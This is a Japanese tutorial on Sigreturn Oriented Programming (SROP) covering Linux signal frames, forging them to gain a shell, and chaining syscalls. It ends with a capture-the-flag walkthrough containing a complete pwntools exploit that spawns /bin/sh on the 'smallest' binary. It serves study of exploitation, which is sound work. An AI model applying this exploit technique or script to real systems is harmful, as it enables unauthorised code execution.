






# SROP

## 基本紹介

SROP(Sigreturn Oriented Programming)は、2014年に Vrije Universiteit Amsterdam の Erik Bosman によって提案されました。その研究 **`Framing Signals — A Return to Portable Shellcode`** はセキュリティのトップカンファレンス [Oakland 2014](http://www.ieee-security.org/TC/SP2014) で発表され、その年の [Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html) に選ばれました。関連する paper と slides のリンクは次のとおりです。

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

このうち `sigreturn` はシステムコールで、unix 系システムで signal が発生したときに間接的に呼び出されます。

## signal の仕組み

signal(シグナル)は、unix 系システムでプロセス間が互いに情報を伝え合う方法の一つです。一般にソフトウェア割り込みシグナル、あるいはソフトウェア割り込みとも呼ばれます。たとえば、プロセス間でシステムコール kill を使ってソフトウェア割り込みシグナルを送れます。一般的なシグナル処理の手順は次の図のとおりです。



1. カーネルがあるプロセスに signal を送ると、そのプロセスは一時的に中断され、カーネルモードに入ります。

2. カーネルはそのプロセスの対応するコンテキストを保存します。**主な内容は、すべてのレジスタをスタックに積むこと、signal の情報を積むこと、そして sigreturn のシステムコールのアドレスを指すものを積むことです。** このときのスタックの構造は下図のとおりで、ucontext と siginfo の部分を Signal Frame と呼びます。**この部分はユーザープロセスのアドレス空間にあることに注意してください。** その後、登録済みの signal handler にジャンプして対応する signal を処理します。そのため、signal handler の実行が終わると、sigreturn のコードが実行されます。

    

    Signal Frame はアーキテクチャによって異なります。ここでは x86 と x64 の sigcontext をそれぞれ示します。

    -   x86

    ```c
    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };
    ```

    -   x64

    ```c
    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t		cwd;
      __uint16_t		swd;
      __uint16_t		ftw;
      __uint16_t		fop;
      __uint64_t		rip;
      __uint64_t		rdp;
      __uint32_t		mxcsr;
      __uint32_t		mxcr_mask;
      struct _fpxreg	_st[8];
      struct _xmmreg	_xmm[16];
      __uint32_t		padding[24];
    };
    
    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };
    ```

3. signal handler が戻った後、カーネルは sigreturn システムコールを実行するため、そのプロセスについて以前保存したコンテキストを復元します。これには、積まれたすべてのレジスタを対応するレジスタへ pop し直し、最後にプロセスの実行を再開することが含まれます。32 ビットの sigreturn のシステムコール番号は 119(0x77)、64 ビットのシステムコール番号は 15(0xf)です。

## 攻撃の原理

カーネルが signal を処理する過程での働きを振り返ると、カーネルが主に行うのはプロセスのコンテキストの保存と復元であることが分かります。この主要な変更はすべて Signal Frame にあります。ただし、次の点に注意が必要です。

- Signal Frame はユーザーのアドレス空間に保存されるため、ユーザーが読み書きできます。
- カーネルはシグナルハンドラについて関知しない(kernel agnostic about signal handlers)ため、その signal に対応する Signal Frame を記録しません。したがって sigreturn システムコールが実行されるとき、その時点の Signal Frame が、以前カーネルがユーザープロセスのために保存した Signal Frame であるとは限りません。

ここまで来ると、SROP の基本的な利用原理が見えてきます。以下に簡単な例を2つ挙げます。

### shell の取得

まず、攻撃者がユーザープロセスのスタックを制御できると仮定します。すると攻撃者は Signal Frame を偽造できます。下図は 64 ビットを例に、Signal Frame のより詳しい情報を示したものです。



システムが sigreturn システムコールを実行し終えると、対応するレジスタの値を復元するために一連の pop 命令が実行されます。rip に到達すると、プログラムの実行フローは syscall のアドレスを指し、対応するレジスタの値に従って、shell が得られます。

### system call chains

上の例では、単独で shell を得ただけであることを指摘しておきます。場合によっては、一連の関数を実行したいことがあります。その場合は、次の2点を変更するだけで済みます。

- **スタックポインタを制御する。**
- **元々 rip が指していた `syscall` gadget を `syscall; ret` gadget に置き換える。**

下図のようにすると、syscall が返るたびにスタックポインタが次の Signal Frame を指すようになります。したがって、一連の sigreturn 関数呼び出しを実行できます。



### 補足

ROP 攻撃を組み立てるときには、次の条件を満たす必要があることに注意してください。

-   **スタックオーバーフローでスタックの内容を制御できること**
-   **対応するアドレスを知っている必要があります**
    -   **"/bin/sh"**
    -   **Signal Frame**
    -   **syscall**
    -   **sigreturn**
-   signal frame 全体を詰め込めるだけの十分な大きさの領域が必要です

また、sigreturn と syscall;ret という2つの gadget については、上では触れていません。この攻撃を提案した論文の著者は、これらの gadget が現れるいくつかのアドレスを見つけました。



さらに著者は、システムによって SROP のアドレスがランダム化されているものとされていないものがあることを発見しました。たとえば `Linux < 3.3 x86_64`(Debian 7.0、Ubuntu Long Term Support、CentOS 6 のデフォルトカーネル)では、vsyscall 内の固定アドレスに syscall&return のコード片を直接見つけられます。次のとおりです。



しかし現在では、これは `vsyscall-emulate` と `vdso` の仕組みに置き換えられています。また、現在ほとんどのシステムでは ASLR 保護が有効なので、相対的にこれらの gadget は見つけにくくなっています。

特筆すべきこととして、sigreturn システムコールの場合、64 ビットシステムでは sigreturn に対応するシステムコール番号は 15 なので、RAX=15 にして syscall を実行するだけで sigreturn を呼び出せます。そして RAX レジスタの値は、ある関数の戻り値を制御することで間接的に制御できます。たとえば read 関数の戻り値は読み取ったバイト数です。

## 利用ツール

**特筆すべきこととして、現在の pwntools には srop への攻撃がすでに組み込まれています。**

## 例

ここでは 360 春秋杯の smallest-pwn を例に簡単に紹介します。基本的な手順は次のとおりです。

**ファイルの基本情報の確認**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

このプログラムは 64 ビットの静的リンク版であることが分かります。

**保護の確認**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

プログラムでは主に NX 保護が有効になっています。

**脆弱性の発見**

IDA で直接逆コンパイルして見てみると、プログラムはアセンブリがわずか数行で、次のようになっています。

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

syscall の番号が 0 であることから、このプログラムが実行する命令は read(0,$rsp,400) であり、スタックの先頭に 400 文字を読み込むものだと分かります。間違いなく、これにはスタックオーバーフローがあります。

**利用の方針**

プログラムには sigreturn の呼び出しがないため、自分で組み立てる必要があります。ちょうど read 関数の呼び出しがあるので、read が読み取るバイト数を使って rax の値を設定できます。重要な方針は次のとおりです。

- read が読み取る文字数を制御して RAX レジスタの値を設定し、sigreturn を実行する
- syscall で execve("/bin/sh",0,0) を実行して shell を得る。

**エクスプロイトプログラム**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

基本的な流れは次のとおりです。

- プログラムの開始アドレスを3つ読み込む
- プログラムが返るとき、1つ目のプログラム開始アドレスを使ってアドレスを読み込み、戻りアドレス(つまり2つ目のプログラム開始アドレス)を元のプログラムの2命令目に書き換えます。これにより rax=1 が設定されます
- すると write(1,$esp,0x400) が実行され、スタックアドレスがリークします。
- 3つ目のプログラム開始アドレスを使って、さらに payload を読み込む
- もう一度読み込んで sigreturn の呼び出しを組み立て、スタックアドレスのある位置にデータを読み込ませて execve('/bin/sh',0,0) を組み立てる
- もう一度読み込んで sigreturn の呼び出しを組み立て、shell を得る。

## 問題

- [Defcon 2015 Qualifier: fuckup](https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344)

参考文献

- [Sigreturn Oriented Programming (SROP) Attack 攻撃原理](http://www.freebuf.com/articles/network/87447.html)
- [SROP by Angel Boy](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [システムコール](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
